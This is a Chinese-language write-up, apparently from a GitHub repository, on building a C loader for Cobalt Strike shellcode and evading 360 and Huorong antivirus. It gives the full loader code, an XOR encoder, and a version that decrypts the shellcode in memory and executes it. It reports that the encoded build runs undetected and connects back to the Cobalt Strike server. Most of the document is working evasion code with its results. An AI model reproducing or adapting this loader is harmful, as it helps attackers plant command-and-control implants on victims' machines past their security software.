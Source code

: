 # 0x00 简介
原理：c语言实现的loader  
测试的杀软：360全家桶、火绒  
CS版本：Cobalt Strike 4.2  
Metasploit版本：暂未测试

# 0x00 结论
能过360全家桶、火绒  

# 0x01 注意
360杀毒关闭：用户体验、程序错误、可疑文件  
360安全卫士关闭：用户体验、云安全、网址云安全  
火绒关闭：用户体验  

# 0x02 过程
Attacks->Packages->Payload Generator（选择之前创建的监听器，输出C格式）  
生成的代码如下  
```
/* length: 833 bytes */
unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60...";
```
下载并安装VS2019，安装时勾选C++和windows这2类，创建windows控制台项目  
c语言实现loader，代码如下
```
#include <windows.h>
#include <stdio.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

// shellcode
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41...";

int main() {
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
经测试，编译执行后能够成功上线

拷贝到windows server 2008下  
首次复制到虚拟机的时候，360直接给删除了  
再次复制时，没有删除，而且扫描后也没有提示病毒（怀疑它是判断为虚拟机，故行为改变）  
但使用火绒扫描后，提示病毒，如下图  
![image](./pic/0.png)

使用如下C代码，对shellcode进行异或加密（每个字节和数字1进行异或）
```
#include <stdio.h>

unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;//xor key
int b = sizeof(buf);
unsigned char str[891] = { 0 };//shellcode size

int main() {
    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中，下述代码会在内存中进行异或解密并执行
```
#include <stdio.h>
#include <windows.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char buf[] = "\xfd\x49\x82\xe5\xf1\xe9\xc9\x1...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8( (volatile char *)buf + i, 1 );//xor key
    }
    
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译执行后，能成功连接到CS  
拷贝到windows server 2008 R2下  
360安全卫士、360杀毒、火绒均未提示  
扫描后也未提示，如下图  
![image](./pic/1.png)  
执行后能成功连接到CS，如下图  
![image](./pic/2.png)
